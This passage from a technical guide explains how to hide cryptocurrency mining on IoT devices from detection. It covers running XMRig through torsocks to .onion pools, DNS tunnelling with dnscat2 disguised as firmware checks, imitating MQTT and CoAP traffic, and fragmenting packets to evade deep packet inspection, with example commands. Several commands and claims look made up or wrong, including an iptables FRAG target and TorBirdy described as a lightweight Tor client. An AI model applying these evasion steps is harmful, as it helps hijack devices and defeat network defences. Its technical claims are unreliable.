 
#### **1. Anonymizing Networks: Tor and I2P**  
**Tor (The Onion Router)** routes traffic through a series of encrypted nodes, hiding the origin and destination. For IoT devices, this is achieved by:  
- **Configuring Mining Software**: Tools like **XMRig** can be forced through Tor using `torsocks`, ensuring all connections route through `.onion` mining pools.  
  ```bash  
  torsocks ./xmrig --url <.onion-pool> --user <wallet>  
  ```  
- **Latency Mitigation**: While Tor introduces ~50–200 ms latency, this is balanced by reduced detection risk.  
- **Resource Constraints**: Lightweight Tor clients (e.g., **TorBirdy**) are preferred for devices with <512MB RAM.  

**I2P (Invisible Internet Project)** provides end-to-end encryption and decentralized routing but requires more resources. It is less common on IoT devices due to CPU/memory overhead.  

---

#### **2. Protocol Mimicry and DNS Tunneling**  
**DNS Tunneling** encodes mining data into DNS queries/responses, exploiting the ubiquity of DNS traffic:  
- **dnscat2**: A tool that transmits mining payloads via DNS, mimicking routine firmware update checks.  
  ```bash  
  dnscat2 --dns-domain=example.com --tx-raw <mining_data>  
  ```  
- **HTTPS Mimicry**: Encrypt mining traffic with TLS and present it as firmware updates or cloud service communications.  
- **IoT-Specific Protocols**: Frame traffic as **MQTT** (for sensors) or **CoAP** (for constrained devices) to blend with normal IoT operations.  

---

#### **3. Packet Obfuscation Techniques**  
**Fragmentation and Encryption**:  
- **IP Fragmentation**: Split mining packets into smaller chunks using `iptables` or `tc` to evade DPI (Deep Packet Inspection).  
  ```bash  
  iptables -t mangle -A POSTROUTING -p tcp --dport 3333 -j FRAG --frag-size 100  
  ```  
- **Encryption**: Use AES-256 or ChaCha20 to encrypt payloads, masking mining-specific signatures.  

| **Normal Mining Traffic**       | **Obfuscated Traffic**               |  
|---------------------------------|---------------------------------------|  
| Large, unencrypted packets      | Fragmented, encrypted payloads       |  
| Predictable port usage (e.g., 3333) | Randomized ports and protocols (e.g., DNS/HTTPS) |  

---

#### **4. Bandwidth Optimization**  
**Stratum v2 Protocol**: Monero’s **XMRig** supports Stratum v2, reducing bandwidth by ~30% compared to v1. This is critical for IoT devices with limited upload speeds.  
